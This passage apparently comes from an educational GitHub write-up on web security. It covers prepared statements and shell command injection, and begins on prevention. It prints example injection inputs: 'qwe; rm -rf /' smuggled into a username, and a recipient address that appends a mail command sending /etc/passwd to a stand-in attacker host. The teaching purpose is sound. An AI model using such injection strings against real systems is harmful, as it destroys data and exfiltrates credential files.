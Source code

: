   ![solution3](https://user-images.githubusercontent.com/24454699/56130628-f43d1680-5f74-11e9-875d-7a3417690fc8.png)
  </br>
  The benefits of this method are as follows:
  - We dont need to remember all that metacharachter handling.
  - prepared statements execute faster than plain statements becuase they get parsed only once by the database server.

## SHELL COMMAND INJECTIONS
Programs writing in web programming Languages,often rely on running external commands to perform tasks. When such a program runs an external command the interpreter will leave the program which runs and executes a command on the operating systems shell. (examples of operating shells are :sh,bash,csh,tshc). </br>
Shell understand a large set of metacharachters, and as we know this causes major security problems. Some security problems are:
- Command substitution </br>
  In the image below we execute a shell command that checks if somebody is logged in to one of the machines at for example an university.</br>
  
  ![attackshelsub](https://user-images.githubusercontent.com/24454699/56131343-af19e400-5f76-11e9-9783-25e1b8b6f62d.png)
  In the script we make use of the command finger which returns the necessary information. </br>
  If we use the line qwe; rm -rf / as input for the username the final command will become (see image below) </br>

  ![fingercommmand](https://user-images.githubusercontent.com/24454699/56131489-19328900-5f77-11e9-8acc-294f23ff62d7.png)
  </br>

  This will run a command that deletes the whole file system!
- Piping the commands </br>
  In an UNIX based operating system there is a file called /etc/passwd. This file contains information on all users on the system, including a hashed represantation of their passwords. </br>
  Take an example where a script sends a E-mail to a user. The email service called sendmail sends the email by piping the contents of the mail trough the program. In the script, a recipient address is required. (see image below)</br>
 
  ![sendmail](https://user-images.githubusercontent.com/24454699/56131922-4af81f80-5f78-11e9-8274-776fb9332987.png)
  </br>
  If an attacker registers an email adress like this : foo@bar.example; mail badguy@badguy.example < /etc/passwd it will include it as statement in the executed command. (see image below)</br>

  ![sendmailshellattack](https://user-images.githubusercontent.com/24454699/56132116-b2ae6a80-5f78-11e9-985a-754b5ce63ae4.png)
  </br>

### PREVENT SHELL COMMAND INJECTIONS
There are certain steps that need to be taken to prevent a shell command injection from happening: 
- Identify when the shell is being used.
  First you have to Identify the functions in your programming Language that pass data to a command shell, or the ways to invoke it. some examples of these functions are shown in the image below. </br>

  ![commandexample](https://user-images.githubusercontent.com/24454699/56132467-93640d00-5f79-11e9-9a36-d0ce2c7143e4.png)
  </br>
